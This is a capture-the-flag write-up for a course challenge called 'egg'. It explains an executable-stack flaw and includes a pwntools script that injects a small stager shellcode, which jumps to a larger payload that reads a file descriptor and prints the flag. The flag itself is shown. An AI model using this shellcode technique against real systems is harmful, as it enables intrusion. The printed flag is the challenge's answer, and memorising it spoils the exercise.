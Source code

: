 misc-2 | egg
===========================

Flag: `6447{16baa76c-2d52-4972-be1b-d8b600e2c335}`

General overview of problems faced
-------------------------------------
Had forgotten that calling a function added a return address to the stack and therefore moved the buffers esp offsets

List of vulnerabilities
--------------------
1. The stack is executable
2. The program executes the code in a small buffer by loading the buffer into eax and executing `call eax` which allows the user to input malicious code. Even if the first buffer is too small to execute malicious commands, it is possible to jump to the bigger buffer in order to execute a large payload.

Steps to exploit
------------------
1. Write the small buffer's assembly code to call [esp + 60] which contains the large buffer
2. Write the large buffer's assembly code to read 42 bytes from filehandle 1000 into esp and write 42 bytes from esp to STDOUT
3. Convert the assembly code to hex and send the small buffer then the big buffer. The flag will then be printed out.


Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

# flag: 6447{16baa76c-2d52-4972-be1b-d8b600e2c335}

from pwn import *

def generate_small_payload():
    payload = "mov eax, [esp+60];"
    payload += "call eax;"

    asm_payload = asm(payload)

    return asm_payload

def generate_large_payload():
    big_payload = shellcraft.read(1000, 'esp', 42)
    big_payload += shellcraft.write(1, 'esp', 42)

    return asm(big_payload)

def main():
    context.arch = 'i386'
    context.terminal = '/bin/sh'

    r = remote("misc.6447.sec.edu.au", 8006)

    r.sendline(generate_small_payload())
    r.sendline(generate_large_payload())

    print "Flag:", r.recvrepeat(0.2).split()[-1]

if __name__ == '__main__':
    main()
```
